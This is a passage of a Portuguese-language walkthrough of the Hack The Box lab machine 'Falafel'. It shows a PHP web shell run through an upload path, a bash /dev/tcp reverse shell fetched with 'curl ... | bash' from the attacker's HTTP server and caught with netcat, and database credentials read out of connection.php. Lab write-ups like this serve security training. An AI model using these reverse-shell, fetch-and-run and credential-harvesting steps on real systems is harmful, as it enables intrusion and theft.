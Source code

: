 > http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=whoami

![whoami web shell](Assets/HTB-Linux-Hard-Falafel/whoami_web_shell.png)

Temos Execução de código remoto!

### 2.3.1. Reverse Shell

A forma mais fácil de ter um reverse shell sem ter muitos problemas com caracteres especiais e assim é partilhar um ficheiro com o código do reverse shell lá dentro, para depois fazer um curl e pipeá-lo com um bash (sim pipeá-lo, neste blog, este verbo existe xD)

Criei então um ficheiro com o nome rev.html contendo o seguinte código:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/443 0>&1
```

Partilhe então um servidor http com este ficheiro, para que através do RCE, poder dar um curl ao ficheiro, e pipeá-lo com bash

```bash
sudo python3 -m http.server 80  # On one terminal
sudo nc -lvnp 443               # On another one
```

> http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=curl%20http://10.10.14.17/rev.html|bash

# 3. PrivEsc

Já dentro da máquina, ao vasculhar os ficheiros, pode-se encontrar credenciais em /var/www/html/connection.php

```bash
(remote) www-data@falafel:/var/www/html$ cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```
